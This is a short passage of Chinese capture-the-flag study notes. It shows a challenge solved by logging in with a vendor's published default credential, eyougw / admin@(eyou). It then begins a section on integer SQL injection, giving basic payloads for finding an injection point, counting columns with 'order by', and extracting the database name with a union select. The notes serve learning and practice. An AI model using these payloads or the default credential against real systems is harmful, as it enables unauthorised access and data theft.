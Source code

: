 ![](./img/morenkoling.png)

**解题思路**

搜索该厂商的默认口令

查询到默认用户名为eyougw，密码为admin@(eyou)，成功登陆后，Capture The Flag!

### SQL注入

### 整型注入

**常用注入语句**

1. 检查是否存在注入点
```
and 1=1 #返回正确
and 1=2 #返回错误
```

2. 猜解字段有多少个
```
order by x
```

3. 爆数据库名称
```
?id=1 and 1=2 union select 1,database()
```
